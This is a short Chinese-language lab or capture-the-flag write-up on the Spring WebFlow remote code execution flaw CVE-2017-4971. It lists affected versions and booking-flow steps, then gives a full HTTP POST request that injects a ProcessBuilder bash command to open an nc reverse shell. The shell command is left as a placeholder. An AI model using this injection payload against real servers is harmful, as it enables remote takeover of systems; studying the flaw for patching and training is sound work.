






# Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）by [xiajibaxie](https://github.com/xiajibaxie)

## 漏洞描述

 Spring WebFlow 在 Model 的数据绑定由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞。

## 影响版本

Spring WebFlow 2.4.0 – 2.4.4

## 利用流程

1选择左侧用户名登陆

 

2访问路径 `/hotels/1` 点击 `Book Hotel` 



 3填写相应信息后点击 `Proceed` 



4点击 `Confirm` 抓包



5将 nc 的反弹 shell 转换成 url 编码



6.发送 poc 反弹 shell 获得 flag 

```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 10.10.11.20:43156
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.20:43156/hotels/booking?execution=e2s2
Cookie: JSESSIONID=62C4972DBE024CCE5D86154E13B17537
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

_eventId_confirm=&_csrf=13d9614f-d52c-4a5c-be7c-49b1947225a9&_(new java.lang.ProcessBuilder("bash","-c","url转码poc")).start()=vulhub
```




## 参考

https://www.jianshu.com/p/ad391cb9a95b

https://paper.seebug.org/322/

